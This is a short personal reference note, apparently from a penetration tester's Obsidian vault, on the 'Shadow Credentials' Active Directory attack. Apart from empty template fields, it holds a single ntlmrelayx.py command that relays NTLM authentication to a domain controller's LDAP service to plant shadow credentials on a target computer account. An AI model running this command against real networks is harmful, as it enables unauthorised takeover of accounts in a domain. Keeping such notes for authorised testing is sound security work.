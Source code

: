 ```yaml
---
creation date: January 27th 2022
last modified date: January 27th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Shadow Credentials]]  
___

## Description:  

```bash
ntlmrelayx.py -t ldap://<dc-ip> --shadow-credentials --shadow-target '<computer-name>$' -smb2support --no-dump --no-da --no-acl --no-validate-privs
``````

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: January 27th 2022 (02:57 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>